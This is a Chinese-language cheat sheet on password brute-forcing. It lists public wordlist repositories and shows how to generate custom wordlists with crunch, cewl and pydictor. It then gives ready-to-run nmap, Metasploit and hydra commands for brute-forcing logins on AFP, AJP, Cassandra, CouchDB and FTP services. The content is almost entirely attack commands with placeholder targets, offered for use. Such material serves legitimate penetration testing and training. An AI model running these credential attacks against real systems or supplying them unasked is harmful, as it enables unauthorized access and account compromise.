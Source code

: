 如果默认口令无法放登录，可以尝试使用字典暴力破解，这里我为你整理了一些好用的字典仓库（感谢这些大佬的风险）：
```
https://github.com/danielmiessler/SecLists
https://github.com/Dormidera/WordList-Compendium
https://github.com/kaonashi-passwords/Kaonashi
```
## 创造你自己的字典
有时候别人整理好的字典也不一定能爆破成功，因为不用的目标侧重也是不同的，那能不能根据不同目标动态生成专属字典呢？答案是可以的！

创建专属字典的核心思想就是：尽可能查找与测试目标有关的信息并生成自定义词典。
可能用到的工具：

### Crunch

```
crunch 4 6 0123456789ABCDEF -o crunch1.txt #使用指定字符，生成长度4到6的字符串
crunch 4 4 -f /usr/share/crunch/charset.lst mixalpha 
```
 
### Cewl
此工具能根据目标登录页面自动抓取关键词并生成字典：
```
cewl example.com -m 5 -w words.txt
```
### pydictor
一个强大实用的黑客暴力破解字典创建工具
```
git clone https://github.com/LandGrey/pydictor
cd pydictor
python3 pydictor.py --sedb

使用说明 https://github.com/LandGrey/pydictor/blob/master/README_CN.md
```

## 远程服务爆破
按服务名称的字母顺序排列：
### AFP
```
nmap -p 548 --script afp-brute <IP>
msf> use auxiliary/scanner/afp/afp_login
msf> set BLANK_PASSWORDS true
msf> set USER_AS_PASS true
msf> set PASS_FILE <PATH_PASSWDS>
msf> set USER_FILE <PATH_USERS>
msf> run
```
### AJP
```
nmap --script ajp-brute -p 8009 <IP>
```
### Cassandra
```
nmap --script cassandra-brute -p 9160 <IP>
```
### CouchDB
```
msf> use auxiliary/scanner/couchdb/couchdb_login
```
### FTP
```
hydra -l root -P passwords.txt [-t 32] <IP> ftp
```
